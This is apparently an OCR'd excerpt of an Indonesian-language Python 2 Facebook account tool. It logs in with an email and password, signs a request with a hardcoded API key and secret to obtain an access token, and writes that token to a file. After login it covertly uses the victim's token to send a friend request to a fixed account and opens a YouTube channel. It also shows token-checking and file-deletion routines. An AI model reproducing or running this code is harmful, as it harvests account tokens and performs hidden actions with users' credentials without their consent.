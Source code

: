 		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m[✓] \x1b[1;92mLogin Berhasil'
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				os.system('xdg-open https://www.youtube.com/EkidRoot')
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m[!] \x1b[1;91mSepertinya akun anda kena checkpoint")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m[!] \x1b[1;91mPassword/Email salah")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
			
			
def menu():
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		os.system('clear')
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"\033[1;96m[!] \033[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	except requests.exceptions.ConnectionError:
		print"\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
